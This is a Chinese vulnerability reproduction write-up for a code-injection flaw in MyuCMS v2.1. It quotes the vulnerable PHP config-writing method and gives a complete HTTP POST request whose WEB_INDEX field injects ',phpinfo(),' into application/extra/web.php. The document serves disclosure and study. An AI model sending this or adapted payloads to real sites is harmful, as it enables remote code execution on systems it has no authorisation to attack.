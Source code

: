 MyuCMS v2.1 命令执行漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

CNVD上没有说明存在的页面。我找到的是一处能控制 **extre/web.php**
内容的漏洞。

漏洞成因是使用 **file\_put\_contents** 函数更新 **extre**
下配置文件的内容时，未对参数内容做验证，而直接通过循环遍历，拼接到了php后缀的配置文件中。

相同原理漏洞影响3个文件共5处。分别为
**application/admin/controller/Config.php**，
**application/admin/controller/Muban.php**
，**application/admin/controller/Point.php**

此处以 **application/admin/controller/Config.php** 下的 **add()**
方法为例分析

    public function add()
        {
           $path = 'application/extra/web.php';
           $file = include $path;      // $file 的内容为 web.php 中返回的配置数组的值
           $config = array( // 读取 post 中提交的配置内容
             'WEB_RXT' => input('WEB_RXT'),
             'WEB_GL' => input('WEB_GL'),
             'WEB_REG' => input('WEB_REG'),
             'WEB_TAG' => input('WEB_TAG'),
             'WEB_OPE' => input('WEB_OPE'),
             'WEB_BUG' => input('WEB_BUG'),
             'WEB_BBS' => input('WEB_BBS'),
             'WEB_SHOP' => input('WEB_SHOP'),
             'WEB_INDEX' => input('WEB_INDEX'),
             'WEB_KEJIAN' => input('WEB_KEJIAN'),
             'WEB_KEJIANS' => input('WEB_KEJIANS'),
             'Cascade' => input('Cascade'),
             //七牛
             'bucket' => input('bucket'),
             'accessKey' => input('accessKey'),
             'secrectKey' => input('secrectKey'),
             'domain' => input('domain'),
             'qiniuopen' => input('qiniuopen'),
           );
            $res = array_merge($file, $config); // 合并两个数组
            $str = '<?php return [';
            foreach ($res as $key => $value) { // 循环数组，生成新的配置内容
                $str .= '\'' . $key . '\'' . '=>' . '\'' . $value . '\'' . ',';
            }
            $str .= ']; ';
            if (file_put_contents($path, $str)) { // 将配置内容写入 web.php 文件
                return json(array('code' => 200, 'msg' => '修改成功'));
            } else {
                return json(array('code' => 0, 'msg' => '修改失败'));
            }
        }

### Payload

Payload数据包如下：

    POST /admin/config/add.html HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 327
    Origin: http://www.myu.io
    Connection: close
    Referer: http://www.myu.io/admin/config/index.html
    Cookie: PHPSESSID=l6ijpio06mqmhcdq654g63eq90; UM_distinctid=170343d2b4a291-0a4e487f247e62-4c302978-1fa400-170343d2b4b28f; CNZZDATA1277972876=1874892142-1581419669-%7C1581432904; XDEBUG_SESSION=XDEBUG_ECLIPSE

    WEB_KEJIAN=0&WEB_KEJIANS=0&WEB_INDEX=bbs',phpinfo(),'&WEB_RXT=rar,png,zip,jpg,gif,ico,7z&qiniuopen=0&secrectKey=0&accessKey=0&domain=0&bucket=0&Cascade=1&WEB_BUG=true&WEB_REG=1&WEB_OPE=1&WEB_GL=0&WEB_BBS=1&WEB_SHOP=1&WEB_TAG=%e6%8f%92%e4%bb%b6%2c%e5%bb%ba%e8%ae%ae%2c%e6%a8%a1%e6%9d%bf%2c%e7%ad%be%e5%88%b0%2c%e5%8f%8d%e9%a6%88

写入的内容和效果如下：

![11.jpg](./.resource/MyuCMSv2.1命令执行漏洞/media/rId25.jpg)

![111.jpg](./.resource/MyuCMSv2.1命令执行漏洞/media/rId26.jpg)

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-4
